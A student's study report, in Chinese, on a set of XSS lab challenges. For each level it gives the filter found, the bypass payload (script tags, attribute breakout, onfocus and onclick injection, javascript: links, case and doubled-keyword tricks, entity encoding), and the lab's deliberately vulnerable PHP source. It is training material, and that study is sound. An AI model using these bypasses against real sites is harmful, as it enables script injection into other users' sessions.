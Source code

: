 # 陈励文学习报告03## XSS题目### level1![LDBei.png](https://s1.328888.xyz/2022/04/03/LDBei.png)![LDEqv.png](https://s1.328888.xyz/2022/04/03/LDEqv.png)注入恶意代码```html<script>alert()</script>```![LDPw0.png](https://s1.328888.xyz/2022/04/03/LDPw0.png)### level2![LDxBJ.png](https://s1.328888.xyz/2022/04/03/LDxBJ.png)![LdU2F.png](https://s1.328888.xyz/2022/04/03/LdU2F.png)发现输入的代码被赋给value并打印网页，使用（">）闭合value![Lduvy.png](https://s1.328888.xyz/2022/04/03/Lduvy.png)### level3![Ldgzd.png](https://s1.328888.xyz/2022/04/03/Ldgzd.png)![Ld91Q.png](https://s1.328888.xyz/2022/04/03/Ld91Q.png)查看源码，发现<>被转义了，于是转为注入事件ondocus，构造payload，用 ' 将value闭合， //注释掉后面的 ‘```html' onfocus=alert()//```### level4![LdXD4.png](https://s1.328888.xyz/2022/04/03/LdXD4.png)![LdfwB.png](https://s1.328888.xyz/2022/04/03/LdfwB.png)尝试使用大写绕过，被过滤了，script都被过滤了，使用javascript伪协议来注入代码，```html"><a href="javascript:alert()>//```### level6![LdiBT.png](https://s1.328888.xyz/2022/04/03/LdiBT.png)![Ld282.png](https://s1.328888.xyz/2022/04/03/Ld282.png)利用大写绕过```html"><SCRIPT>alert()</SCRIPT>```### level7![LdAv7.png](https://s1.328888.xyz/2022/04/03/LdAv7.png)发现大小写这次被过滤了，输入```<script>alert()</script>```后script被过滤了，于是构造payload```"><scrscriptipt>alert()</scrscriptipt>//```![Ld4LX.png](https://s1.328888.xyz/2022/04/03/Ld4LX.png)### level8尝试javascript伪协议，script被过滤，换成大小写后还是被过滤，于是尝试用转义的方法![LdHzZ.png](https://s1.328888.xyz/2022/04/03/LdHzZ.png)![LdlD1.png](https://s1.328888.xyz/2022/04/03/LdlD1.png)源码```php<?php ini_set("display_errors", 0);$str = strtolower($_GET["keyword"]);//加入了大写变小写的转化函数$str2=str_replace("script","scr_ipt",$str);$str3=str_replace("on","o_n",$str2);$str4=str_replace("src","sr_c",$str3);$str5=str_replace("data","da_ta",$str4);$str6=str_replace("href","hr_ef",$str5);$str7=str_replace('"','&quot',$str6);echo '<center><form action=level8.php method=GET><input name=keyword  value="'.htmlspecialchars($str).'"><input type=submit name=submit value=添加友情链接 /></form></center>';?>```### level9查看下源码![Ldz8O.png](https://s1.328888.xyz/2022/04/03/Ldz8O.png)在构造伪协议是需要添加http://```<a href="javascr_ipt:alert()//http://">script被替换了，于是像上题一样用转义``````&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x29;http://```源码```php<?php ini_set("display_errors", 0);$str = strtolower($_GET["keyword"]);$str2=str_replace("script","scr_ipt",$str);$str3=str_replace("on","o_n",$str2);$str4=str_replace("src","sr_c",$str3);$str5=str_replace("data","da_ta",$str4);$str6=str_replace("href","hr_ef",$str5);$str7=str_replace('"','&quot',$str6);echo '<center><form action=level9.php method=GET><input name=keyword  value="'.htmlspecialchars($str).'"><input type=submit name=submit value=添加友情链接 /></form></center>';?><?phpif(false===strpos($str7,'http://')){  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';        }else{  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';}?><center><img src=level9.png></center><?php echo "<h3 align=center>payload的长度:".strlen($str7)."</h3>";?>```### level10![LdCRq.png](https://s1.328888.xyz/2022/04/03/LdCRq.png)发现有三个表单，于是从三个表单下手，构建poc，查看表单回显```<script>alert()</acript>&t_link=" type="text"&t_history=" type="text"&t_sort=" type="text"```![LdpvP.png](https://s1.328888.xyz/2022/04/03/LdpvP.png)![LdsLm.png](https://s1.328888.xyz/2022/04/03/LdsLm.png)出现可点击的框，同时第三个表单发生变化，于是利用第三个表单构建payload```<script>alert()</script>&t_sort=" type="text" onclick="alert()```onclick=“alert()通过点击框的方式将alert注入进去![Ld7CA.png](https://s1.328888.xyz/2022/04/03/Ld7CA.png)源码```php<?php ini_set("display_errors", 0);$str = $_GET["keyword"];$str11 = $_GET["t_sort"];$str22=str_replace(">","",$str11);$str33=str_replace("<","",$str22);echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center><form id=search><input name="t_link"  value="'.'" type="hidden"><input name="t_history"  value="'.'" type="hidden"><input name="t_sort"  value="'.$str33.'" type="hidden"></form></center>';?>```